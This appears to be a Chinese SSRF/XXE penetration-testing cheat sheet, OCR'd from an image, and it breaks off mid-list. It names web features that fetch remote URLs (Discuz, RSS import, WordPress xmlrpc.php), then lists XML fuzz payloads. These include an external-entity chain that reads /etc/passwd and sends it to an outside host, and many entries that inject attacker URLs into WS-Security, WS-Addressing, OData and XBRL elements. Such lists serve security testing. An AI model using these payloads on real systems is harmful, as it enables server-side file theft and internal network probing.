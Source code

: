 #### 注意

有两种情况会阻碍`SSRF`的利用：

+ 服务端开启OpenSSL无法进行交互利用
+ 服务端需要鉴权信息（Cookies & Username：Password）

#### 从远程服务器请求资源

+ Upload from URL
  + Discuz!
+ Import & Export RSS feed
  + Web Blog
+ 使用XML引擎对象的地方
  + Wordpress xmlrpc.php
  + XXE实体引用
  + DTD文档类型定义
  + XLST -- XML文档转换为其他格式

##### XML Fuzz Cheatsheet（模糊测试表）

+ DTD Remote Access —— 文档结构标准
＜!ENTITY % d SYSTEM "http://wuyun.org/evil.dtd"＞
+ XML External Entity —— 外部实体引用
＜!ENTITY % file system "file:///etc/passwd"＞
＜!ENTITY % d SYSTEM "http://wuyun.org/file?data=%file"＞
+ URL Invocation —— URL调用
＜!DOCTYPE roottag PUBLIC "-//VSR//PENTEST//EN" "http://wuyun.org/urlin"＞
＜roottag＞test＜/roottag＞
+ XML Encryption —— XML 加密
＜xenc:AgreementMethod Algorithm= "http://wuyun.org/1"＞
＜xenc:EncryptionProperty Target= "http://wuyun.org/2"＞
＜xenc:CipherReference URI= "http://wuyun.org/3"＞
＜xenc:DataReference URI= "http://wuyun.org/4"＞

##### XML Fuzz Cheatsheet —— Web Services 标准项

+ XML Signature — XMLqianming
＜Reference URI="http://wuyun.org/5"＞
+ WS Policy — SOA WS策略项
＜To xmlns="http://www.w3.org/2005/08/addressing"＞http://wuyun.org/to＜/To＞
＜ReplyTo xmlns="http://www.w3.org/2005/08/addressing"＞
＜Address＞http://wuyun.org/rto＜/Address＞
＜/ReplyTo＞
+ From WS Security — JAVA WEB安全策略
＜wsp:PolicyReference URI="http://wuyun.org/pr"＞
+ WS Addressing — Web Services消息寻址
＜input message="wooyun" wsa:Action="http://wuyun.org/ip" /＞
＜output message="wooyun" wsa:Action="http://wuyun.org/op" /＞

##### XML Fuzz Cheatsheet —— 第三方应用与新协议

+ WS Federation —— Web Services通用标准
＜fed:Federation FederationID="http://wuyun.org/fid"＞
＜fed:FederationInclude＞http://wuyun.org/inc＜/fed:FederationInclude＞
＜fed:TokenIssuerName＞http://wuyun.org/iss＜/fed:TokenIssuerName＞
＜mex:MetadataReference＞
    ＜wsa:Address＞http://wuyun.org/mex＜/wsa:Address＞
＜/mex:MetadataReference＞
+ ODATA (edmx)新协议
＜edmx:Reference URI="http://wuyun.org/edmxr"＞
＜edmx:AnnotationsReference URI="http://wuyun.org/edmxa"＞
+ XBRL —— 财务报告标准
＜xbrli:identifier scheme="http://wuyun.org/xbr"＞
＜link:roleType roleURI="http://wuyun.org/role"＞
+ STRATML —— 策略标记语言